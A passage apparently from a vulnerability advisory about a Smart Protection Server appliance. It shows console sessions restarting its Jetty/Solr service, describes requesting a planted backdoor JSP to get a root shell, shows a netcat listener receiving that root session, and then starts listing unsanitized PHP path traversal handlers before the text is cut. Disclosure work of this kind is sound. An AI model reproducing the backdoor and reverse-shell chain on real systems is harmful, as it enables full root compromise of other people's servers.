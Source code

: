 ********************************************
*          Smart Protection Server         *
*                                          *
*      WARNING: Authorized Access Only     *
********************************************
        
Welcome admin it is Wed Jul  6 22:34:01 CEST 2016
> enable
> disable adhoc-query 
Do you really want to disable adhoc query service? (y/n)y0

Stopping Jetty: OK
> enable adhoc-query 
Starting Jetty: STARTED Jetty Wed Jul  6 22:46:41 CEST 2016
0
2016-07-06 22:46:41.825::INFO:  Logging to STDERR via org.mortbay.log.StdErrLog
2016-07-06 22:46:41.939::INFO:  Redirecting stderr/stdout to /var/tmcss/debuglogs/jetty.log
>
</pre>

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
$ tail /var/tmcss/debuglogs/jetty.log
2016-07-06 22:46:42.516::INFO:  Extract jar:file:/var/tmcss/solr/webapps/solr.war!/ to /var/tmcss/solr/work/Jetty_0_0_0_0_8983_solr.war__solr__k1kf17/webapp
2016-07-06 22:46:42.724::INFO:  Started SocketConnector @ 0.0.0.0:8983
</pre>

And once you request your backdoor JSP file, your root shell will drop :)

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
$ nc -l 4445
id
uid=0(root) gid=0(root) groups=0(root),6(disk)
pwd
/var/tmcss/solr
</pre>

Note that the Jetty server is configured in such a way that it'll only load war files named "solr.war" and that you'll need to request the jsp backdoor by prepending "solr" to it. It should be possible to update the Jetty configuration but, you know, I'm lazy. 

## Path Traversal - Technical Description

The following PHP scripts do not sanitize user inputs prior to using them as parameters in file handling related functions:

* /var/www/AdminUI/php/log_mgt_adhocquery_ajaxhandler.php
* /var/www/AdminUI/php/log_mgt_ajaxhandler.php
* /var/www/AdminUI/php/wcs_bwlists_handler.php

We review each vulnerable component below:

**/var/www/AdminUI/php/log_mgt_adhocquery_ajaxhandler.php [lines 108-124]**

